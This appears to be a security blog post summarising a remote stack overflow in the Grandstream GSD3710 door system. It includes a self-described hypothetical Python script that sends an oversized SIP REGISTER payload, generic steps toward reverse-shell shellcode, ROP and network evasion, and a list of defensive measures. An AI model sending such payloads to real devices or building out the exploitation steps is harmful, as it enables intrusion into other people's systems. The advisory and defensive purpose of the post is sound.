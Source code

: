 ```yaml
---
title: "[remote] Grandstream GSD3710 1.0.11.13 - Stack Overflow"
date: 2025-06-05
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security, Grandstream]
layout: post
image: ./assets/images/post-cover/grandstream-GSD3710.png
---
```


## Summary

Grandstream GSD3710 1.0.11.13 - Stack Overflow

## Technical Analysis

# Technical Executive Summary

The vulnerability in question pertains to the Grandstream GSD3710, a network-based video door system, specifically version 1.0.11.13. The flaw is categorized as a stack overflow vulnerability, which typically occurs when data exceeding the buffer's storage capacity is written onto the stack, potentially allowing for arbitrary code execution. This vulnerability is classified as remote, indicating that an attacker could exploit it over a network without needing physical access to the device. The lack of a detailed summary suggests limited public documentation, necessitating further investigation to assess the potential impact and exploitability.

# Code Example (Proof of Concept)

Below is a Python script that demonstrates a basic proof-of-concept (PoC) for exploiting a stack overflow vulnerability. This script is illustrative and hypothetical, designed to showcase how an attacker might approach exploiting such a vulnerability in a networked device.

```python
import socket

# Target device IP and port
target_ip = "192.168.1.100"
target_port = 5060

# Crafting a payload with a simple pattern to identify overflow
payload = b"A" * 1024  # Adjust size based on specific overflow characteristics

# Constructing the message
message = (
    b"REGISTER sip:" + target_ip.encode() + b" SIP/2.0\r\n"
    b"Via: SIP/2.0/UDP " + target_ip.encode() + b":5060\r\n"
    b"Max-Forwards: 70\r\n"
    b"To: <sip:100@" + target_ip.encode() + b">\r\n"
    b"From: <sip:100@" + target_ip.encode() + b">;tag=123456\r\n"
    b"Call-ID: 1234567890@" + target_ip.encode() + b"\r\n"
    b"CSeq: 1 REGISTER\r\n"
    b"Contact: <sip:100@" + target_ip.encode() + b">\r\n"
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n\r\n"
    + payload
)

# Sending the payload
with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as s:
    s.sendto(message, (target_ip, target_port))
    print("Payload sent to target device.")
```

**Note:** This PoC is for educational purposes only and should not be used in unauthorized environments.

# Offensive Security Insights

Exploitation of stack overflow vulnerabilities typically involves several steps:

1. **Fuzzing and Identification:** Use fuzzing techniques to identify the overflow point and determine the buffer size. Tools like AFL (American Fuzzy Lop) or custom scripts can be employed to send varying input sizes to the vulnerable service.

2. **Control of Execution Flow:** Once the overflow point is identified, the next step is to overwrite the return address on the stack. This requires precise calculation of the buffer offset.

3. **Payload Development:** Develop a payload that can be executed once the return address is overwritten. This might involve shellcode that opens a reverse shell or executes arbitrary commands.

4. **Bypassing Protections:** Modern systems employ various protections such as ASLR (Address Space Layout Randomization) and DEP (Data Execution Prevention). Techniques like ROP (Return-Oriented Programming) might be necessary to bypass these defenses.

5. **Remote Execution:** As this is a remote vulnerability, ensure that the exploit can be delivered over the network, potentially requiring encoding or fragmentation to evade network security devices.

# Defensive Measures

To mitigate the risk associated with this stack overflow vulnerability, consider the following defensive measures:

1. **Patch Management:** Ensure that all devices are updated with the latest firmware from the vendor. Regularly check for security advisories and patches.

2. **Network Segmentation:** Isolate vulnerable devices on separate network segments to limit exposure to potential attackers.

3. **Input Validation:** Implement strict input validation on all user inputs to prevent buffer overflow conditions.

4. **Network Security Monitoring:** Deploy intrusion detection and prevention systems (IDS/IPS) to monitor and block suspicious activities targeting vulnerable devices.

5. **Access Controls:** Restrict access to the device to trusted IP addresses and use strong authentication mechanisms to prevent unauthorized access.

6. **Security Configuration:** Disable unnecessary services and ports on the device to reduce the attack surface.

By implementing these measures, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.

📎 [Original Source](https://www.exploit-db.com/exploits/52313)

---

_This article was written by sleep33._
